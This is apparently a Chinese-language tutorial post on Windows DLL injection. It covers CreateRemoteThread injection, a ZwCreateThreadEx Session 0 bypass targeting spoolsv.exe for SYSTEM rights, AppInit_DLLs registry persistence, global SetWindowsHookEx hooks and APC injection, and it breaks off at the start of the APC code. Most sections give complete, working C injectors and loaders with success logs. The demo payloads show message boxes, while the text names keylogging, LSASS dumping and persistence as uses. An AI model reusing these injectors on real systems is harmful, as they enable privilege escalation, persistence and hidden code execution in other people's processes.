





<!-- more -->


# Windows DLL 注入

## 1. DLL 注入技术总述：核心原理

DLL 注入（DLL Injection）是指将一个外部的动态链接库（DLL）强制加载到目标进程的虚拟地址空间中，并使其代码在目标进程的上下文中执行的技术。

**核心原理：**
Windows 操作系统对进程实施了**虚拟内存隔离**机制，进程 A 无法直接访问进程 B 的内存。DLL 注入的本质是打破这种隔离，通过操作系统提供的调试 API 或机制，在目标进程的内存中写入恶意 DLL 的路径，并操纵目标进程的主动加载行为（通常是强制调用 `LoadLibrary` API），从而使恶意 DLL 成为目标进程的一部分。

一旦注入成功，DLL 将拥有与目标进程相同的权限（Process Token），能够访问其内存数据、挂钩 API 或作为跳板进行持久化攻击。

`MessageBoxDll.c`

```c
#include<stdio.h>
#include<windows.h>
#include<stdlib.h>

#define RUN_SUCESS 0
__declspec(dllexport) int __cdecl DownLoadFileFromUrl(int i)
{
    if(i==1)
    {
        MessageBox(NULL, TEXT("Start Exploooosion"), TEXT("Hacked"), MB_OK);
          return RUN_SUCESS;
    }
    else if(i==2)
    {
        MessageBox(NULL, TEXT("Stop Exploooosion"), TEXT("Hacked"), MB_OK);
          return RUN_SUCESS;
    }

}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
  switch (fdwReason)
  { 
    // 将dll文件附加到进程（加载到地址空间时）。
      case DLL_PROCESS_ATTACH:
          DownLoadFileFromUrl(1);
        break;
    // 在进程中创建了新线程之后会执行。
    case DLL_THREAD_ATTACH:
          break;
    // 进程中的线程退出时，执行的函数。
    case DLL_THREAD_DETACH:
          break;
    // 当dll从进程空间脱离（退出）时执行的进程。
    case DLL_PROCESS_DETACH:
        DownLoadFileFromUrl(2);
        break;
  }
  return TRUE;
}
```

## 2. 经典远程线程注入 (Classic CreateRemoteThread)

这是最基础也是最通用的注入方式，旨在向普通用户进程注入 DLL。

### 2.1 技术原理

攻击者进程在目标进程中开辟内存，写入 DLL 路径，然后“远程”命令目标进程创建一个新线程。这个新线程的唯一任务就是执行 `LoadLibrary` 函数，从而加载指定的 DLL。

### 2.2 实现方法与流程 (参考 `classicdllinjection.c`)

1. **获取权限** ：获取目标进程句柄。
2. **分配内存** ：在目标进程空间中申请一块内存。
3. **写入数据** ：将 DLL 的完整路径写入刚才申请的内存。
4. **地址解析** ：计算 `LoadLibraryW` 函数在内存中的地址（通常利用 Kernel32.dll 在所有进程中基址相同的特性，或使用 PEB Walking 技术）。
5. **执行注入** ：创建远程线程调用 `LoadLibraryW`。

### 2.3 核心 API 及作用

* `OpenProcess(PROCESS_ALL_ACCESS, ...)`：获取目标进程的操作句柄，需要足够的权限（如 `VM_WRITE`, `VM_OPERATION`）。
* `VirtualAllocEx(...)`： **关键步骤** 。在**目标进程**的内存空间中分配内存，用于存放 DLL 路径字符串。
* `WriteProcessMemory(...)`：将本地的 DLL 路径字符串复制到目标进程刚才分配的内存中。
* `GetRemoteModuleHandle` / `GetProcAddress`：获取 `LoadLibrary` 函数的地址。在你的代码中，使用了更高级的 PEB Walking 技术来查找模块基址。
* `CreateRemoteThread(...)`： **核心触发点** 。在目标进程中创建一个新线程，线程的入口点设为 `LoadLibrary`，参数设为 DLL 路径的内存地址。

```c
#include "injector.h"

// 执行 DLL 注入的核心逻辑
BOOL InjectDLL(DWORD pid, wchar_t* dllPath) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        printf("[-] OpenProcess failed. Error: %lu\n", GetLastError());
        return FALSE;
    }
    size_t pathLen = (wcslen(dllPath) + 1) * sizeof(wchar_t);
    // 1. 在目标进程分配内存
    LPVOID pRemoteMem = VirtualAllocEx(hProcess, NULL, pathLen, MEM_COMMIT, PAGE_READWRITE);
    if (!pRemoteMem) {
        printf("[-] VirtualAllocEx failed.\n");
        CloseHandle(hProcess);
        return FALSE;
    }
    // 2. 写入 DLL 路径
    if (!WriteProcessMemory(hProcess, pRemoteMem, dllPath, pathLen, NULL)) {
        printf("[-] WriteProcessMemory failed.\n");
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return FALSE;
    }
    // 3. PEB Walking 获取 Kernel32 基址 (调用 injector.h 中的函数)
    HMODULE hRemoteKernel32 = GetRemoteModuleHandle(hProcess, L"kernel32.dll");
    if (hRemoteKernel32 == NULL) {
        printf("[-] Failed to find kernel32.dll in target process via PEB.\n");
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return FALSE;
    }
    printf("[+] Found Remote Kernel32 Base: 0x%p\n", (void*)hRemoteKernel32);
    // 4. 计算 LoadLibraryW 的远程地址
    HMODULE hLocalKernel32 = GetModuleHandleW(L"kernel32.dll");
    FARPROC pLocalLoadLibrary = GetProcAddress(hLocalKernel32, "LoadLibraryW");
    // 偏移量计算
    uintptr_t offset = (uintptr_t)pLocalLoadLibrary - (uintptr_t)hLocalKernel32;
    LPTHREAD_START_ROUTINE pRemoteLoadLibrary = (LPTHREAD_START_ROUTINE)((uintptr_t)hRemoteKernel32 + offset);
    printf("[+] Calculated Remote LoadLibraryA: 0x%p\n", pRemoteLoadLibrary);
    // 5. 创建远程线程
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pRemoteLoadLibrary, pRemoteMem, 0, NULL);
    if (!hThread) {
        printf("[-] CreateRemoteThread failed. Error: %lu\n", GetLastError());
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return FALSE;
    }
    if (hThread) {
        printf("[+] Remote thread created. Waiting for execution...\n");
        // 1. 等待线程结束 (即 LoadLibrary 执行完毕)
        WaitForSingleObject(hThread, INFINITE);
        // 2. 获取线程退出码 (这就是 LoadLibrary 的返回值)
        DWORD exitCode = 0;
        GetExitCodeThread(hThread, &exitCode);
        if (exitCode == 0) {
            printf("[-] Injection FAILED. LoadLibrary returned NULL.\n");
            printf("    Possible causes:\n");
            printf("    1. DLL path is incorrect (Target process can't find it).\n");
            printf("    2. Architecture mismatch (Injecting 32-bit DLL into 64-bit Process).\n");
            printf("    3. Dependency missing.\n");
        } else {
            printf("[+] Injection SUCCESS. Remote DLL Handle: 0x%lX\n", exitCode);
        }
    }
    //printf("[+] Remote thread created successfully.\n");
    WaitForSingleObject(hThread, INFINITE);
    // 清理
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    return TRUE;
}

int main(int argc, char* argv[]) {
    const wchar_t* targetProcessName = L"notepad.exe";
    wchar_t dllPath[MAX_PATH];
    // 使用 GetFullPathNameW
    if (GetFullPathNameW(L"MessageboxDll.dll", MAX_PATH, dllPath, NULL) == 0) {
        wprintf(L"Failed to get full path of DLL. Error: %d\n", GetLastError());
        return 1;
    }
    // 调用 injector.h 中的函数
    DWORD pid = GetProcessIdByName(targetProcessName);
    if (pid == 0) {
        printf("[-] Process not found. Make sure it is running.\n");
        return 1;
    }
    printf("[+] Target PID: %lu\n", pid);
    printf("[*] Attempting injection via PEB walking (Compact Version)...\n");

    if (InjectDLL(pid, dllPath)) {
        printf("[+] Injection sequence completed successfully.\n");
    } else {
        printf("[-] Injection failed.\n");
    }
    return 0;
}
```

### 2.4 攻击效果

* **效果** ：能够控制任何当前用户权限下的普通进程（如 Notepad, Chrome）。
* **局限** ：在 Windows Vista 以后，由于 Session 0 隔离机制，无法使用此 API 向系统服务注入。

```
PS C:\Users\Exploooosion\Desktop> .\Project4.exe                                                                        [+] Target PID: 9204                                                                                                    [*] Attempting injection via PEB walking (Compact Version)...                                                           [+] Found Remote Kernel32 Base: 0x00007FF8AABC0000                                                                      [+] Calculated Remote LoadLibraryA: 0x00007FF8AABE0220                                                                  [+] Remote thread created. Waiting for execution...                                                                     [+] Injection SUCCESS. Remote DLL Handle: 0x64780000                                                                    [+] Injection sequence completed successfully.  
```



## 3. 突破 Session 0 隔离注入 (Session 0 Bypass)

针对系统服务和高权限进程的注入技术。

### 3.1 技术原理

Windows 将服务和系统核心进程运行在 Session 0，而用户进程运行在 Session 1+。`CreateRemoteThread` 在跨 Session 操作时会失败。此技术通过调用底层的 Native API (`ZwCreateThreadEx`) 直接与内核交互，绕过 Win32 子系统的 Session 检查。

### 3.2 实现方法与流程 (参考 `session0bypass.c`)

流程的前半部分（打开进程、分配内存、写入路径）与经典注入完全一致。唯一的区别在于最后一步“创建线程”的方式。

### 3.3 核心 API 及作用

* `OpenProcess` / `VirtualAllocEx` / `WriteProcessMemory`：作用同上。
* `GetModuleHandle("ntdll.dll")` & `GetProcAddress`：获取 `ntdll.dll` 中的未文档化函数地址。
* `ZwCreateThreadEx(...)`： **核心触发点** 。这是一个内核级 API，比 `CreateRemoteThread` 更底层。它允许在特定的标志位设置下，忽略 Session 隔离限制，在 Session 0 的进程（如 `spoolsv.exe`, `svchost.exe`）中创建线程。

```c
#include "injector.h"

// 执行 DLL 注入的核心逻辑
BOOL InjectDLL(DWORD pid, const wchar_t* dllPath) {
    // 1. 获取目标进程句柄
    // 注意：操作 Session 0 服务进程通常需要 SeDebugPrivilege
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        printf("[-] OpenProcess failed. Error: %lu\n", GetLastError());
        return FALSE;
    }
    size_t pathLen = (wcslen(dllPath) + 1) * sizeof(wchar_t);
    // 2. 在目标进程分配内存
    LPVOID pRemoteMem = VirtualAllocEx(hProcess, NULL, pathLen, MEM_COMMIT, PAGE_READWRITE);
    if (!pRemoteMem) {
        printf("[-] VirtualAllocEx failed.\n");
        CloseHandle(hProcess);
        return FALSE;
    }
    // 3. 写入 DLL 路径
    if (!WriteProcessMemory(hProcess, pRemoteMem, (LPVOID)dllPath, pathLen, NULL)) {
        printf("[-] WriteProcessMemory failed.\n");
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return FALSE;
    }
    // 4. PEB Walking 获取 Kernel32 基址
    HMODULE hRemoteKernel32 = GetRemoteModuleHandle(hProcess, L"kernel32.dll");
    if (hRemoteKernel32 == NULL) {
        printf("[-] Failed to find kernel32.dll in target process via PEB.\n");
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return FALSE;
    }
    printf("[+] Found Remote Kernel32 Base: 0x%p\n", (void*)hRemoteKernel32);
    // 5. 计算 LoadLibraryW 的远程地址
    HMODULE hLocalKernel32 = GetModuleHandleW(L"kernel32.dll");
    FARPROC pLocalLoadLibrary = GetProcAddress(hLocalKernel32, "LoadLibraryW");
    uintptr_t offset = (uintptr_t)pLocalLoadLibrary - (uintptr_t)hLocalKernel32;
    LPTHREAD_START_ROUTINE pRemoteLoadLibrary = (LPTHREAD_START_ROUTINE)((uintptr_t)hRemoteKernel32 + offset);
    printf("[+] Calculated Remote LoadLibraryW: 0x%p\n", pRemoteLoadLibrary);
    // ============================================================
    //         使用 ZwCreateThreadEx 绕过 Session 0 隔离
    // ============================================================
    HANDLE hThread = NULL;
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (!hNtdll) {
        printf("[-] Failed to load ntdll.dll\n");
        return FALSE;
    }
    // 获取 ZwCreateThreadEx 地址
    typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdll, "ZwCreateThreadEx");
    if (!ZwCreateThreadEx) {
        printf("[-] GetProcAddress for ZwCreateThreadEx failed.\n");
        return FALSE;
    }
    printf("[*] Calling ZwCreateThreadEx to bypass Session 0 isolation...\n");
    DWORD status = ZwCreateThreadEx(
        &hThread, 
        PROCESS_ALL_ACCESS, 
        NULL, 
        hProcess, 
        pRemoteLoadLibrary, 
        pRemoteMem, 
        0, // Flags / CreateSuspended = 0
        0, 0, 0, NULL
    );
    if (status != 0) { // 0 表示 STATUS_SUCCESS
        printf("[-] ZwCreateThreadEx failed. Status: 0x%lx\n", status);
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return FALSE;
    }

    if (hThread) {
        printf("[+] Remote thread created successfully via Native API.\n");
        WaitForSingleObject(hThread, INFINITE);
        DWORD exitCode = 0;
        GetExitCodeThread(hThread, &exitCode);
        if (exitCode == 0) {
            printf("[-] Injection FAILED. LoadLibrary returned NULL.\n");
        } else {
            printf("[+] Injection SUCCESS. Remote DLL Handle: 0x%lX\n", exitCode);
        }
  
        CloseHandle(hThread);
    }
    VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    return TRUE;
}

int main(int argc, char* argv[]) {
    // 默认目标改为 spoolsv.exe 以测试 Session 0 注入
    const wchar_t* targetProcessName = L"spoolsv.exe"; 
    wchar_t dllPath[MAX_PATH];
    if (!EnableDebugPrivilege()) {
        printf("[-] Failed to enable SeDebugPrivilege. Run as Administrator!\n");
        return 1;
    }
    printf("[+] SeDebugPrivilege Enabled.\n");
    if (GetFullPathNameW(L"MessageboxDllforSystem.dll", MAX_PATH, dllPath, NULL) == 0) {
        wprintf(L"[-] Failed to get full path of DLL. Error: %d\n", GetLastError());
        return 1;
    }
    // 查找 PID
    wprintf(L"[*] Searching for process: %s\n", targetProcessName);
    DWORD pid = GetProcessIdByName(targetProcessName);
    if (pid == 0) {
        printf("[-] Process not found. Make sure it is running.\n");
        return 1;
    }
    printf("[+] Target PID: %lu\n", pid);
    // 执行注入
    if (InjectDLL(pid, dllPath)) {
        printf("[+] Injection sequence completed successfully.\n");
    } else {
        printf("[-] Injection failed.\n");
    }

    return 0;
}
```

### 3.4 攻击效果 (最厉害的效果)

* **权限提升 (Privilege Escalation)** ：成功注入系统服务后，DLL 将获得 **SYSTEM (NT AUTHORITY\SYSTEM)** 权限。
* **完全控制** ：这是 Windows 系统中的最高权限，可以无限制地修改系统文件、注册表，甚至转储密码哈希 (LSASS)。

```
PS C:\Users\Exploooosion\Desktop> .\Project4.exe                                                                        [+] SeDebugPrivilege Enabled.                                                                                           [*] Searching for process: spoolsv.exe                                                                                  [+] Target PID: 4816                                                                                                    [+] Found Remote Kernel32 Base: 0x00007FF8AABC0000                                                                      [+] Calculated Remote LoadLibraryW: 0x00007FF8AABE0220                                                                  [*] Calling ZwCreateThreadEx to bypass Session 0 isolation...                                                           [+] Remote thread created successfully via Native API.                                                                  [+] Injection SUCCESS. Remote DLL Handle: 0x658C0000                                                                    [+] Injection sequence completed successfully.  
========================================
[+] Time: (New Injection Event)
[+] Process ID   : 4816
[+] Session ID   : 0 (0 means System Service Session)
[+] Current User : SYSTEM
[RESULT] -> SUCCESS! Running as NT AUTHORITY\SYSTEM
========================================
```



## 4. 注册表注入 (Registry Modification)

利用 Windows 加载机制的“被动”注入，常用于持久化。

### 4.1 技术原理

Windows 的 `User32.dll` 在初始化时会读取特定的注册表键值。如果配置了 `AppInit_DLLs`，所有加载 `User32.dll` 的进程（即几乎所有 GUI 程序）在启动时都会自动加载列表中的 DLL。

### 4.2 实现方法

不依赖内存操作 API，而是通过修改注册表键值。

* 路径：`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`
* 操作：设置 `LoadAppInit_DLLs` 为 1，并在 `AppInit_DLLs` 中填入恶意 DLL 路径。

### 4.3 核心 API 及作用

* `RegOpenKeyEx` / `RegSetValueEx`：用于修改注册表键值。
* `User32.dll` (系统机制)：当它被加载时，会自动解析上述注册表项并调用 `LoadLibrary`。

### 4.4 攻击效果

* **持久化 (Persistence)** ：重启后依然有效。
* **广撒网** ：系统中几乎所有有界面的程序都会被注入，无需针对特定 PID。
* *注：在开启 Secure Boot 的现代系统中，此功能通常被禁用。*

## 5. 消息钩子注入 (SetWindowsHookEx)

利用 Windows 消息传递机制的注入，常用于监控用户行为。

### 5.1 技术原理

Windows 允许程序安装“钩子”来截获系统消息（如键盘、鼠标事件）。如果安装的是 **全局钩子** （Global Hook），操作系统为了让回调函数能处理其他进程的消息，必须将包含回调函数的 DLL 强制映射到所有接收该消息的进程空间中。

### 5.2 实现方法与流程 (参考 `hookinjection.c`, `GlobalHookDll.c`)

1. **编写 DLL** ：DLL 中必须包含钩子回调函数（如 `MyHookProc`）和导出安装函数。
2. **安装钩子** ：加载器（Loader）加载 DLL，获取回调函数地址，调用 `SetWindowsHookEx`。
3. **触发注入** ：一旦发生相关事件（如鼠标移动、按键），OS 自动将 DLL 注入到受影响的进程。

### 5.3 核心 API 及作用

* `LoadLibrary` / `GetProcAddress`：在加载器中加载恶意 DLL 并获取导出函数地址。
* `SetWindowsHookEx(WH_GETMESSAGE, hookProc, hDll, 0)`： **核心触发点** 。
  * `WH_GETMESSAGE` / `WH_KEYBOARD`：指定监听的消息类型。
  * 最后一项参数 `0`：表示 **全局钩子** ，这是触发系统级注入的关键，它告诉 OS 监控所有线程。
* `CallNextHookEx`：在 DLL 回调函数中调用，确保消息能继续传递，防止系统卡死。

`GlobalHookDll.c`

```c
// GlobalHookDll.c
// 编译命令: gcc -shared -o GlobalHookDll.dll GlobalHookDll.c
#include <windows.h>
#include <stdio.h>
// 宏定义：方便导出函数
#define DLLEXPORT __declspec(dllexport)
// 全局变量保存句柄和实例
HHOOK g_hHook = NULL;
HINSTANCE g_hInst = NULL;
// =============================================================
// 1. 钩子回调函数 (业务逻辑)
// =============================================================
LRESULT CALLBACK MyHookProc(int nCode, WPARAM wParam, LPARAM lParam) {
    // 只有当nCode >= 0时才处理消息
    if (nCode >= 0) {
        // 为了演示，我们只在记事本里弹窗 (防止系统卡死)
        char path[MAX_PATH];
        GetModuleFileNameA(NULL, path, MAX_PATH);
      
        if (strstr(path, "notepad.exe") || strstr(path, "Notepad.exe")) {
            // 简单的防重入标志，防止一个消息弹无数次窗
            static int hasPopped = 0;
            if (hasPopped == 0) {
                MessageBoxA(NULL, "Exploooosion!", "Hacked", MB_OK);
                hasPopped = 1; 
            }
        }
    }
    // 必须调用下一个钩子 [cite: 6]
    return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
// =============================================================
// 2. 导出函数：安装钩子 (参考附件 StartHook)
// =============================================================
DLLEXPORT void StartHook() {
    if (g_hHook == NULL) {
        // 在这里调用 API，而不是在 EXE 里
        // 参数 3 使用 g_hInst，这是 DllMain 获取到的自身模块句柄
        // 参数 4 填 0，代表全局注入 [cite: 7]
        g_hHook = SetWindowsHookEx(WH_GETMESSAGE, MyHookProc, g_hInst, 0);
      
        if (g_hHook) {
            printf("[DLL] Hook installed successfully.\n");
        } else {
            printf("[DLL] Failed to install hook. Error: %lu\n", GetLastError());
        }
    }
}
// =============================================================
// 3. 导出函数：卸载钩子 (参考附件 StopHook)
// =============================================================
DLLEXPORT void StopHook() {
    if (g_hHook) {
        UnhookWindowsHookEx(g_hHook);
        g_hHook = NULL;
        printf("[DLL] Hook removed.\n");
    }
}
// =============================================================
// 4. DllMain：获取自身句柄
// =============================================================
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
    case DLL_PROCESS_ATTACH:
        // 保存 DLL 自身的实例句柄，StartHook 需要用到它 [cite: 9]
        g_hInst = hinstDLL; 
        break;
    }
    return TRUE;
}
```

`hookinjection.c`

```c
// HookLoader.c
// 编译命令: gcc -o HookLoader.exe HookLoader.c
#include <windows.h>
#include <stdio.h>
// 定义函数指针类型，方便调用 DLL 里的函数
typedef void (*PFN_StartHook)();
typedef void (*PFN_StopHook)();
int main() {
    HMODULE hDll = NULL;
    PFN_StartHook StartHook = NULL;
    PFN_StopHook StopHook = NULL;
    // 1. 加载 DLL
    hDll = LoadLibraryA("GlobalHookDll.dll");
    if (!hDll) {
        printf("[-] Failed to load DLL.\n");
        return 1;
    }
    // 2. 获取 DLL 中导出的 StartHook 和 StopHook 函数地址
    StartHook = (PFN_StartHook)GetProcAddress(hDll, "StartHook");
    StopHook  = (PFN_StopHook)GetProcAddress(hDll, "StopHook");

    if (!StartHook || !StopHook) {
        printf("[-] Failed to find exported functions.\n");
        return 1;
    }
    // 3. 启动钩子
    printf("[Loader] Calling StartHook()...\n");
    StartHook(); // 直接调用 DLL 内部的逻辑
    printf("[+] Hook is running globally.\n");
    printf("[!] Press ENTER to stop the hook and exit...\n");
    // 4. 阻塞主线程
    // 再次强调：Loader 必须活着，因为钩子是挂在这个进程名下的。
    // 如果 Loader 退出，StartHook 安装的钩子会被系统强制注销。
    getchar();
    // 5. 卸载钩子
    printf("[Loader] Calling StopHook()...\n");
    StopHook();
    FreeLibrary(hDll);
    return 0;
}
```

### 5.4 攻击效果

* **键盘记录 (Keylogger)** ：通过 `WH_KEYBOARD` 钩子记录所有程序的键盘输入。
* **隐蔽执行** ：不需要创建新线程，代码在目标进程的主 UI 线程中执行。





## 6. APC 注入 (QueueUserAPC)

利用线程异步过程调用队列的“隐蔽”注入技术。

### 6.1 技术原理

每个线程都有一个 APC（Asynchronous Procedure Call）队列。操作系统允许一个进程向另一个进程的线程队列中插入一个函数调用。当该目标线程进入“可警醒状态”（Alertable State，例如调用 `SleepEx`）时，它会优先执行队列中的函数。

### 6.2 实现方法与流程 (参考 `ApcInjector.c`)

1. **准备环境** ：打开目标进程，分配内存，写入 DLL 路径（同 CreateRemoteThread）。
2. **枚举线程** ：获取目标进程的所有线程 ID（因为 APC 是针对线程的）。
3. **插入请求** ：遍历每一个线程，调用 `QueueUserAPC` 将 `LoadLibrary` 插入队列。
4. **等待触发** ：攻击者无法主动触发，只能等待目标线程自行进入可警醒状态。

### 6.3 核心 API 及作用

* `CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, ...)`：拍摄系统快照，用于枚举所有线程。
* `Thread32First` / `Thread32Next`：遍历查找属于目标 PID 的线程 ID。
* `OpenThread(THREAD_SET_CONTEXT, ...)`：获取目标线程句柄，必须拥有设置上下文的权限。
* `QueueUserAPC(pLoadLibrary, hThread, pRemoteMem)`： **核心触发点** 。将 `LoadLibrary` 函数排队到目标线程的执行计划中。

```c
#include "injector.h"
#include <stdio.h>
